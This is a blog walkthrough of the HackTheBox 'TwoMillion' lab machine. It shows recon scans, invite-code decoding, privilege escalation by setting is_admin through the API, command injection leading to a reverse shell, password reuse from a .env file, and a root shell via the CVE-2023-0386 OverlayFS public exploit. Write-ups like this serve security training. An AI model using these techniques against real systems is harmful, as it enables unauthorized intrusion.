+++
date = '2025-06-21T10:51:02+05:30'
draft = false
title = 'HTB: TwoMillion'
+++

<!---
[ctf](/tags#ctf) [htb-twomillion](/tags#htb-twomillion) [hackthebox](/tags#hackthebox) [nmap](/tags#nmap) [ffuf](/tags#ffuf) [feroxbuster](/tags#feroxbuster) [php](/tags#php) [ubuntu](/tags#ubuntu) [javascript](/tags#javascript) [burp](/tags#burp) [burp-repeater](/tags#burp-repeater) [api](/tags#api) [command-injection](/tags#command-injection) [cve-2023-0386](/tags#cve-2023-0386) [htb-invite-challenge](/tags#htb-invite-challenge) [cyberchef](/tags#cyberchef) [youtube](/tags#youtube)  


[HTB: TwoMillion](/2023/06/07/htb-twomillion.html)

*   [Box Info](#box-info)
*   [Recon](#recon)
    *   [nmap](#nmap)
    *   [Subdomain Bruteforce](#subdomain-bruteforce)
    *   [Website - TCP 80](#website---tcp-80)
*   [Shell as www-data](#shell-as-www-data)
    *   [Invite Code Challenge](#invite-code-challenge)
    *   [Authenticated Enumeration](#authenticated-enumeration)
    *   [Get Admin Access](#get-admin-access)
    *   [Command Injection](#command-injection)
*   [Shell as admin](#shell-as-admin)
    *   [Enumeration](#enumeration)
    *   [su / SSH](#su--ssh)
*   [Shell as root](#shell-as-root)
    *   [Enumeration](#enumeration-1)
    *   [CVE-2023-0386](#cve-2023-0386)
*   [BR](#br)
    *   [thank\_you.json](#thank_youjson)
    *   [Website Source Analysis](#website-source-analysis)

 
 
 --->

TwoMillion is a special release from HackTheBox to celebrate 2,000,000 HackTheBox members. It released directly to retired, so no points and no bloods, just for run. It features a website that looks like the original HackTheBox platform, including the original invite code challenge that needed to be solved in order to register. Once registered, I’ll enumerate the API to find an endpoint that allows me to become an administrator, and then find a command injection in another admin endpoint. I’ll use database creds to pivot to the next user, and a kernel exploit to get to root. In Beyond Root, I’ll look at another easter egg challenge with a thank you message, and a YouTube video exploring the webserver and it’s vulnerabilities.

Box Info
--------

| Name | <p style="align:right">[TwoMillion](https://hackthebox.com/machines/twomillion)  <br> [Play on HackTheBox](https://hackthebox.com/machines/twomillion)</p> |
|------|------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Release Date | [07 Jun 2023](https://twitter.com/hackthebox_eu/status/1666451639308353537) |
| Retire Date | 07 Jun 2023 |
| OS | Linux |
| Base Points | <span class="diff-Easy">Easy [20]</span> |
| Creators | [TRX](https://app.hackthebox.com/users/31190) <br>[TheCyberGeek](https://app.hackthebox.com/users/114053)  |
-----
## Recon
### nmap

`nmap` finds two open TCP ports, SSH (22) and HTTP (80):
```bash

    root㉿kali# nmap -p- --min-rate 10000 10.10.10.11
    Starting Nmap 7.80 ( https://nmap.org ) at 2025-06-09 16:59 EDT
    Nmap scan report for 2million.htb (10.10.10.11)
    Host is up (0.097s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http
    
    Nmap done: 1 IP address (1 host up) scanned in 7.18 seconds

    root㉿kali# nmap -p 22,80 -sCV 10.10.10.11
    Starting Nmap 7.80 ( https://nmap.org ) at 2025-06-09 17:00 EDT
    Nmap scan report for 10.10.10.11
    Host is up (0.097s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    nginx
    |_http-title: Did not follow redirect to http://2million.htb/
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 10.19 seconds
```   

Based on the [OpenSSH](https://packages.ubuntu.com/search?keywords=openssh-server) version, the host is likely running Ubuntu 22.04 jammy.

The webserver is redirecting to `http://2million.htb`.

### Subdomain Bruteforce

Because there’s a DNS server names in use, I’ll bruteforce the server to see if anything different comes back with different subdomains of `2million.htb` with `ffuf`:

```bash
    root㉿kali# ffuf -u http://10.10.10.11 -H "Host: FUZZ.2million.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -mc all -ac
    
            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       
    
           v2.0.0-dev
    ________________________________________________
    
     :: Method           : GET
     :: URL              : http://10.10.10.11
     :: Wordlist         : FUZZ: /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
     :: Header           : Host: FUZZ.2million.htb
     :: Follow redirects : false
     :: Calibration      : true
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Response status: all
    ________________________________________________
    
    :: Progress: [4989/4989] :: Job [1/1] :: 408 req/sec :: Duration: [0:00:12] :: Errors: 0 ::
```   

This run sends HTTP requests to the web server with various different subdomains in the `Host` header, and looks for any that aren’t the same. It doesn’t find any.

I’ll add this line to my `/etc/hosts` file:

    10.10.10.11 2million.htb
    

### Website - TCP 80

#### Site

The site is a throwback to what HackTheBox looked like when it released in 2017:

[](/img/image-20230602171207436.png)


It’s worth taking a look at the full page, as it has some fun easter eggs, including the original 32 machines, and the scoreboard from September 2017.

Most of the links lead to places on the page. The link to `/login` gives a login form:

 <p style="text-align: center"></p>

I don’t have creds yet, so nothing here. The forgot password link doesn’t go anywhere.

The “Join” section has a link to `/invite`:

 

This page asks for an invite code, with a message that says “Feel free to hack your way in :)”:

 <p style="text-align: center"></p>

This is the original HackTheBox invite challenge - more [below](#background).

#### Tech Stack

The HTTP headers don’t give much additional information:
```code
    HTTP/1.1 200 OK
    Server: nginx
    Date: Fri, 02 Jun 2023 21:13:15 GMT
    Content-Type: text/html; charset=UTF-8
    Connection: close
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate
    Pragma: no-cache
    Content-Length: 64952
 ```   

The 404 page is the custom throwback HTB 404 page:

  <p style="text-align: center"></p>
 

I’m not able to guess any index page extensions.

#### Directory Brute Force

I’ll run `feroxbuster` against the site:
```bash
    root㉿kali# feroxbuster -u http://2million.htb
    
     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.9.3
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://2million.htb
     🚀  Threads               │ 50
     📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
     👌  Status Codes          │ All Status Codes!
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.9.3
     💉  Config File           │ /etc/feroxbuster/ferox-config.toml
     🔎  Extract Links         │ true
     🏁  HTTP methods          │ [GET]
     🔃  Recursion Depth       │ 4
     🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest     
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Management Menu™
    ──────────────────────────────────────────────────
    301      GET        7l       11w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
    302      GET        0l        0w        0c http://2million.htb/logout => http://2million.htb/
    401      GET        0l        0w        0c http://2million.htb/api
    405      GET        0l        0w        0c http://2million.htb/api/v1/user/register    
    302      GET        0l        0w        0c http://2million.htb/home => http://2million.htb/
    200      GET        1l        8w      637c http://2million.htb/js/inviteapi.min.js     
    200      GET       94l      293w     4527c http://2million.htb/register
    200      GET       80l      232w     3704c http://2million.htb/login
    200      GET       46l      152w     1674c http://2million.htb/404
    200      GET        5l     1881w   145660c http://2million.htb/js/htb-frontend.min.js
    200      GET      260l      328w    29158c http://2million.htb/images/logo-transparent.png
    200      GET       96l      285w     3859c http://2million.htb/invite
    200      GET       13l     2458w   224695c http://2million.htb/css/htb-frontend.css      
    200      GET       13l     2209w   199494c http://2million.htb/css/htb-frontpage.css    
    405      GET        0l        0w        0c http://2million.htb/api/v1/user/login          
    200      GET       27l      201w    15384c http://2million.htb/images/favicon.png         
    200      GET      245l      317w    28522c http://2million.htb/images/logofull-tr-web.png  
    200      GET        8l     3162w   254388c http://2million.htb/js/htb-frontpage.min.js 
    200      GET     1242l     3326w    64952c http://2million.htb/ 
    ...[snip]...
```   

There’s a few interesting things in here before it starts just spewing out 500 errors and I kill it. `/js/inviteapi.min.js` is interesting (and will be important soon). There is a `/register`, which provides a registration form (it still requires an invite code):

 <p style="text-align: center"></p>

There are a couple endpoints in `/api/v1/user`. I’ll note that `feroxbuster` finds these by looking at link targets, not be identifying `/api`. Therefore, it doesn’t brute force down this path. I may want to come back to that.

Shell as ```www-data```
-----------------

### Invite Code Challenge

#### Background

The Invite Code Challenge was a part of HackTheBox until April 2021. In order to register for an account, you had to hack yourself an invite code. This version is almost exactly the same (with some minor API endpoint changes) as it was back then.

#### Identify JavaScript

At the bottom of the page, there’s a `<script>` tag that includes `/js/inviteapi.min.js`:

 <p style="text-align: center"></p>

The JavaScript is packed / minified, but at the bottom there’s two interesting strings:
 
 <p style="text-align: center"></p>

Back on `/invite` (where this code is loaded), I’ll open the browser dev tools, and start typing “make” at the console:
  
 <p style="text-align: center"></p>

It autocompletes that function as `makeInviteCode`. I’ll run it:

  <p style="text-align: center"></p>

#### Decode Initial Data

The raw JSON of the response is:
```json
    {
        "0": 200,
        "success": 1,
        "data": {
            "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr",
            "enctype": "ROT13"
        },
        "hint": "Data is encrypted ... We should probably check the encryption type in order to decrypt it..."
    }
```   

The hint says the data is encrypted, and the `enctype` says it’s ROT13. [rot13.com](https://rot13.com/) is a nice ROT13 decoder:

 <p style="text-align: center"></p>

Or I can do it from the command line with `jq` and `tr`:
```bash
    root㉿kali# curl -s -X POST http://2million.htb/api/v1/invite/how/to/generate | jq -r '.data.data' | tr 'a-zA-Z' 'n-za-mN-ZA-M'
```

In order to generate the invite code, make a POST request to ```/api/v1/invite/generate```
    

#### Generate Code

To send a POST request to `/api/v1/invite/generate`, I’ll use `curl`. `-X [method]` is how to specify the request method:
```bash
    root㉿kali# curl -X POST http://2million.htb/api/v1/invite/generate
    {"0":200,"success":1,"data":{"code":"RzZXQUstVDBYNlktUk5CUk0tQUZYUFo=","format":"encoded"}}
```    

To view that nicely, I’ll add `-s` and pipe it into `jq`:
```bash
    root㉿kali# curl -X POST http://2million.htb/api/v1/invite/generate -s | jq .
    {
      "0": 200,
      "success": 1,
      "data": {
        "code": "TUlQU1gtNDRFWkctVVNWVTgtMTk0VUs=",
        "format": "encoded"
      }
    }
```    

#### Decode Code

The result this time says the format is “encoded”. Looking at the `code`, it is all numbers and letters and ends with `=`. That fits base64 encoding nicely. I’ll try decoding that:

```bash
    root㉿kali# echo "TUlQU1gtNDRFWkctVVNWVTgtMTk0VUs=" | base64 -d
    MIPSX-44EZG-USVU8-194UK
```    

That looks like an invite code. I can test it with the `verifyInviteCode` function in the dev tools console, and it reports it’s valid:

 <p style="text-align: center"></p>


When I put that into the form on `/invite`, it redirects to `/register` with the code filled out:

<p style="text-align: center"></p>

I’m able to register here and login.

### Authenticated Enumeration

#### Website

With an account, I’ve got access to what looks like the original HackTheBox website:

<p style="text-align: center"></p>

It says that the site is performing database migrations, and some features are unavailable. In reality, that means most. The Dashboard, Rules, and Change Log links under “Main” work, and have nice throwback pages to the original HTB.

Under “Labs”, the only link that really works is the “Access” page, which leads to `/home/access`:

<p style="text-align: center"></p>

Clicking on “Connection Pack” and “Regengerate” both return a `.ovpn` file. It’s a valid OpenVPN connection config, and I can try to connect with it, but it doesn’t work.

#### API

“Connection Pack” sends a GET request to `/api/v1/user/vpn/generate`, and “Regenerate” sends a GET to `/api/v1/user/vpn/regenerate`.

I’ll send on of these requests to Burp Repeater and play with the API. `/api` returns a description:

 <p style="text-align: center"></p>

`/api/v1` returns details of the full API:
```json
    {
      "v1": { 
        "user": {
          "GET": {
            "/api/v1": "Route List",  
            "/api/v1/invite/how/to/generate": "Instructions on invite code generation", 
            "/api/v1/invite/generate": "Generate invite code",
            "/api/v1/invite/verify": "Verify invite code",
            "/api/v1/user/auth": "Check if user is authenticated",
            "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
            "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
            "/api/v1/user/vpn/download": "Download OVPN file"
          },
          "POST": {
            "/api/v1/user/register": "Register a new user",
            "/api/v1/user/login": "Login with existing user"
          }
        },
        "admin": {
          "GET": {
            "/api/v1/admin/auth": "Check if user is admin"
          },
          "POST": {
            "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
          },
          "PUT": {
            "/api/v1/admin/settings/update": "Update user settings"
          }
        }
      }
    }
```   

#### Enumerate Admin API

Unsurprisingly, I am not an admin:

<p style="text-align: center"></p>

If I try to POST to `/api/v1/admin/vpn/generate`, it returns 401 Unauthorized:

<p style="text-align: center"></p>

However, a PUT request to `/api/v1/admin/settings/update` doesn’t return 401, but 200, with a different error in the body:

<p style="text-align: center"></p>

### Get Admin Access

I’ll poke at this endpoint a bit more. As it says the content type is invalid, I’ll look at the `Content-Type` header in my request. There is none so I’ll add one. As the site seems to like JSON, I’ll set it to that:
 
<p style="text-align: center"></p>

Now it says email is missing. I’ll add that in the body in JSON:

<p style="text-align: center"></p>

Now it wants ```is_admin```, so I’ll add that as `true`:

<p style="text-align: center"></p>

It’s looking for 0 or 1. I’ll set it to 1, and it seems to work:

<p style="text-align: center"></p>

If I try the verification again, it says true!

<p style="text-align: center"></p>

### Command Injection

#### Enumerate generate API

As my account is now an admin, I don’t get a 401 response anymore from `/api/v1/admin/vpn/generate`:

<p style="text-align: center"></p>

I’ll add my username, and it generates a VPN key:

<p style="text-align: center"></p>

My account is now admin.

#### Injection

It’s probably not PHP code that generates a VPN key, but rather some Bash tools that generate the necessary information for a VPN key.

It’s worth checking if there is any command injection.

If the server is doing something like `gen_vpn.sh [username]`, then I’ll try putting a `;` in the username to break that into a new command. I’ll also add a `#` at the end to comment out anything that might come after my input. It works:

<p style="text-align: center"></p>

#### Shell

To get a shell, I’ll start `nc` listening on my host, and put a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) in as the username:

<p style="text-align: center"></p>

On sending this, I get a shell at my `nc`:
```bash
    root㉿kali# nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.10.11 38542
    bash: cannot set terminal process group (1035): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@2million:~/html$
```    

I’ll upgrade the shell using the `script`/`stty` [trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):
```bash
    www-data@2million:~/html$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    
    www-data@2million:~/html$ ^Z
    [1]+  Stopped                 nc -lnvp 443

    root㉿kali# stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@2million:~/html$
```    

Shell as admin
--------------

### Enumeration

The web root is in the default location, `/var/www/html`:

```bash
    www-data@2million:~/html$ ls -la
    total 56
    drwxr-xr-x 10 root root 4096 Jun  2 22:30 .
    drwxr-xr-x  3 root root 4096 May 26 20:34 ..
    drwxr-xr-x  2 root root 4096 May 23 19:37 assets
    drwxr-xr-x  2 root root 4096 Jun  2 16:30 controllers
    drwxr-xr-x  5 root root 4096 May 29 12:21 css
    -rw-r--r--  1 root root 1237 Jun  2 16:15 Database.php
    -rw-r--r--  1 root root   87 Jun  2 18:56 .env
    drwxr-xr-x  2 root root 4096 May 25 17:57 fonts
    drwxr-xr-x  2 root root 4096 May 25 16:23 images
    -rw-r--r--  1 root root 2692 Jun  2 18:57 index.php
    drwxr-xr-x  3 root root 4096 Jun  1 20:15 js
    -rw-r--r--  1 root root 2787 Jun  2 16:15 Router.php
    drwxr-xr-x  2 root root 4096 Jun  2 16:15 views
    drwxr-xr-x  5 root root 4096 Jun  2 22:30 VPN
```    

`index.php` defines a bunch of routes for the various pages and endpoints used on the website.

There’s a `.env` file as well. This file is commonly used in PHP web frame works to set environment variables for use by the application. This application is more faking a `.env` file rather than actually using it in a framework, but the `.env` file still looks the same:

```
    DB_HOST=127.0.0.1
    DB_DATABASE=htb_prod
    DB_USERNAME=admin
    DB_PASSWORD=SuperDuperPass123
```    

### su / SSH

That password works for both `su` as admin:

```bash
    www-data@2million:~/html$ su - admin
    Password: 
    To run a command as administrator (user "root"), use "sudo <command>".
    See "man sudo_root" for details.
    
    admin@2million:~$
```  

And SSH:
```bash
    root㉿kali# sshpass -p SuperDuperPass123 ssh admin@2million.htb
    Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.70-051570-generic x86_64)
    ...[snip]...
    You have mail.
    ...[snip]...
    admin@2million:~$
```    

Either way, I can grab `user.txt`:
```
    admin@2million:~$ cat user.txt
    277c1481************************
```    

Shell as root
-------------

### Enumeration

#### Mail

This exploit could actually be carried out as www-data. But if I do get to admin, there is a hint as to where to look.

When I logged in over SSH, there was a line in the banner that said admin had mail. That is held in `/var/mail/admin`:
```json
    From: ch4p <ch4p@2million.htb>
    To: admin <admin@2million.htb>
    Cc: g0blin <g0blin@2million.htb>
    Subject: Urgent: Patch System OS
    Date: Tue, 1 June 2023 10:45:22 -0700
    Message-ID: <9876543210@2million.htb>
    X-Mailer: ThunderMail Pro 5.2
    
    Hey admin,
    
    I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.
    
    HTB Godfather
```    

It talks about needing to patch the OS as well, and mentions a OverlayFS / FUSE CVE.

#### Identify Vulnerability

TwoMillion is running Ubuntu 22.04 with the kernel 5.15.70:
```bash
    admin@2million:~$ uname -a
    Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Jun 25 13:45:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
    admin@2million:~$ cat /etc/lsb-release 
    DISTRIB_ID=Ubuntu
    DISTRIB_RELEASE=22.04
    DISTRIB_CODENAME=jammy
    DISTRIB_DESCRIPTION="Ubuntu 22.04.2 LTS"
```    

A search for “linux kernel vulnerability fuse overlayfs” limited to the last year returns a bunch of stuff about CVE-2023-0386:

<p style="text-align: center"></p>


It’s a bit hard to figure out exactly what versions are effected. [This Ubuntu page](https://ubuntu.com/security/CVE-2023-0386) shows that it’s fixed in 5.15.0-70.77:

 <p style="text-align: center"></p>

It’s not clear how that compares to 5.15.70-051570-generic. That said, this was published on 22 March 2023, and the `uname -a` string shows a compile date of 23 September 2022.

### CVE-2023-0386

#### Background

[This blog](https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/) from Datadog does a really nice job going into the details of the exploit. The issue has to do with the overlay file system, and how files are moved between them. To exploit this, an attacker first creates a FUSE (File System in User Space) file system, and adds a binary that is owned by userid 0 in that file system and has the SetUID bit set. The error in OverlayFS allows for that file to be copied out of the FUSE FS into the main on maintaining it’s owner and SetUID.

#### Exploit

There’s a [POC for this exploit](https://github.com/xkaneiki/CVE-2023-0386) on GitHub from researcher xkaneiki. The `README.md` is sparse, but gives enough instruction for use.

I’ll download the ZIP version of the repo:

<p style="text-align: center"></p>

I’ll upload it to 2million with `scp`:

```bash
    root㉿kali# sshpass -p SuperDuperPass123 scp CVE-2023-0386-main.zip admin@2million.htb:/tmp/
```

I’ll need two shells on 2million, which is easy to do with SSH. I’ll unzip the exploit, go into the folder, and run `make all` like it says in the `README.md`:
```bash
    admin@2million:/tmp$ unzip CVE-2023-0386-main.zip 
    Archive:  CVE-2023-0386-main.zip
    c4c65cefca1365c807c397e953d048506f3de195
       creating: CVE-2023-0386-main/
      inflating: CVE-2023-0386-main/Makefile  
    ...[snip]...
      inflating: CVE-2023-0386-main/test/mnt.c  
    admin@2million:/tmp$ cd CVE-2023-0386-main/
    admin@2million:/tmp/CVE-2023-0386-main$ make all
    gcc fuse.c -o fuse -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
    fuse.c: In function ‘read_buf_callback’:
    fuse.c:106:21: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘off_t’ {aka ‘long int’} [-Wformat=]
      106 |     printf("offset %d\n", off);
          |                    ~^     ~~~
    ...[snip]..
    /usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/11/../../../x86_64-linux-gnu/libfuse.a(fuse.o): in function `fuse_new_common':
    (.text+0xaf4e): warning: Using 'dlopen' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking
    gcc -o exp exp.c -lcap
    gcc -o gc getshell.c
```    

It throws some errors, but there are now three binaries that weren’t there before:
```bash
    admin@2million:/tmp/CVE-2023-0386-main$ ls
    exp  exp.c  fuse  fuse.c  gc  getshell.c  Makefile  ovlcap  README.md  test
```    

In the first session, I’ll run the next command from the instructions:
```bash
    admin@2million:/tmp/CVE-2023-0386-main$ ./fuse ./ovlcap/lower ./gc
    [+] len of gc: 0x3ee0
```    

It hangs.

In the other window, I’ll run the exploit:
```bash
    admin@2million:/tmp/CVE-2023-0386-main$ ./exp 
    uid:1000 gid:1000
    [+] mount success
    total 8
    drwxrwxr-x 1 root   root     4096 Jun  2 23:11 .
    drwxrwxr-x 6 root   root     4096 Jun  2 23:11 ..
    -rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
    [+] exploit success!
    To run a command as administrator (user "root"), use "sudo <command>".
    See "man sudo_root" for details.
    
    root@2million:/tmp/CVE-2023-0386-main#
```    

That’s a root shell!

I’ll grab `root.txt`:
```bash
    root@2million:/root# cat root.txt
    05636c51************************
```    

BR
--

### thank\_you.json

There’s one last challenge in `/root`, a file named `thank_you.json`:
```bash
    root@2million:~# ls
    root.txt  snap  thank_you.json
    root@2million:~# cat thank_you.json 
    {"encoding": "url", "data": "%7B%22encoding%22:%20%22hex%22,%20%22data%22:%20%227b22656e6372797074696f6e223a2022786f72222c2022656e6372707974696f6e5f6b6579223a20224861636b546865426f78222c2022656e636f64696e67223a2022626173653634222c202264617461223a20224441514347585167424345454c43414549515173534359744168553944776f664c5552765344676461414152446e51634454414746435145423073674230556a4152596e464130494d556745596749584a51514e487a7364466d494345535145454238374267426942685a6f4468595a6441494b4e7830574c526844487a73504144594848547050517a7739484131694268556c424130594d5567504c525a594b513848537a4d614244594744443046426b6430487742694442306b4241455a4e527741596873514c554543434477424144514b4653305046307337446b557743686b7243516f464d306858596749524a41304b424470494679634347546f4b41676b344455553348423036456b4a4c4141414d4d5538524a674952446a41424279344b574334454168393048776f334178786f44777766644141454e4170594b67514742585159436a456345536f4e426b736a41524571414130385151594b4e774246497745636141515644695952525330424857674f42557374427842735a58494f457777476442774e4a30384f4c524d61537a594e4169734246694550424564304941516842437767424345454c45674e497878594b6751474258514b45437344444767554577513653424571436c6771424138434d5135464e67635a50454549425473664353634c4879314245414d31476777734346526f416777484f416b484c52305a5041674d425868494243774c574341414451386e52516f73547830774551595a5051304c495170594b524d47537a49644379594f4653305046776f345342457454776774457841454f676b4a596734574c4545544754734f414445634553635041676430447863744741776754304d2f4f7738414e6763644f6b31444844464944534d5a48576748444267674452636e4331677044304d4f4f68344d4d4141574a51514e48335166445363644857674944515537486751324268636d515263444a6745544a7878594b5138485379634444433444433267414551353041416f734368786d5153594b4e7742464951635a4a41304742544d4e525345414654674e4268387844456c6943686b7243554d474e51734e4b7745646141494d425355644144414b48475242416755775341413043676f78515241415051514a59674d644b524d4e446a424944534d635743734f4452386d4151633347783073515263456442774e4a3038624a773050446a63634444514b57434550467734344241776c4368597242454d6650416b5259676b4e4c51305153794141444446504469454445516f36484555684142556c464130434942464c534755734a304547436a634152534d42484767454651346d45555576436855714242464c4f7735464e67636461436b434344383844536374467a424241415135425241734267777854554d6650416b4c4b5538424a785244445473615253414b4553594751777030474151774731676e42304d6650414557596759574b784d47447a304b435364504569635545515578455574694e68633945304d494f7759524d4159615052554b42446f6252536f4f4469314245414d314741416d5477776742454d644d526f6359676b5a4b684d4b4348514841324941445470424577633148414d744852566f414130506441454c4d5238524f67514853794562525459415743734f445238394268416a4178517851516f464f676354497873646141414e4433514e4579304444693150517a777853415177436c67684441344f4f6873414c685a594f424d4d486a424943695250447941414630736a4455557144673474515149494e7763494d674d524f776b47443351634369554b44434145455564304351736d547738745151594b4d7730584c685a594b513858416a634246534d62485767564377353043776f334151776b424241596441554d4c676f4c5041344e44696449484363625744774f51776737425142735a5849414242454f637874464e67425950416b47537a6f4e48545a504779414145783878476b6c694742417445775a4c497731464e5159554a45454142446f6344437761485767564445736b485259715477776742454d4a4f78304c4a67344b49515151537a734f525345574769305445413433485263724777466b51516f464a78674d4d41705950416b47537a6f4e48545a504879305042686b31484177744156676e42304d4f4941414d4951345561416b434344384e467a464457436b50423073334767416a4778316f41454d634f786f4a4a6b385049415152446e514443793059464330464241353041525a69446873724242415950516f4a4a30384d4a304543427a6847623067344554774a517738784452556e4841786f4268454b494145524e7773645a477470507a774e52516f4f47794d3143773457427831694f78307044413d3d227d%22%7D"}
```    

It’s JSON with two keys, `encoding` which is set to “url” and `data`. I’ll grab the data and dump it in [CyberChef](https://gchq.github.io/CyberChef/) with the “URL Decode” operation:

 

The result is another JSON blob, this time with `"encoding` set to “hex”. I’ll move the data to the input, disable the “URL Decode” and add “From Hex”:

 

Another blob. This time it has a keys for `encryption`, `encryption_key`, and `encoding`. The data looks like base64, so I’ll decode it, and then apply an XOR with the key “HackTheBox”:

 

It’s a thank you note.

> Dear HackTheBox Community,
> 
> We are thrilled to announce a momentous milestone in our journey together. With immense joy and gratitude, we celebrate the achievement of reaching 2 million remarkable users! This incredible feat would not have been possible without each and every one of you.
> 
> From the very beginning, HackTheBox has been built upon the belief that knowledge sharing, collaboration, and hands-on experience are fundamental to personal and professional growth. Together, we have fostered an environment where innovation thrives and skills are honed. Each challenge completed, each machine conquered, and every skill learned has contributed to the collective intelligence that fuels this vibrant community.
> 
> To each and every member of the HackTheBox community, thank you for being a part of this incredible journey. Your contributions have shaped the very fabric of our platform and inspired us to continually innovate and evolve. We are immensely proud of what we have accomplished together, and we eagerly anticipate the countless milestones yet to come.
> 
> Here’s to the next chapter, where we will continue to push the boundaries of cybersecurity, inspire the next generation of ethical hackers, and create a world where knowledge is accessible to all.
> 
> With deepest gratitude,
> 
> The HackTheBox Team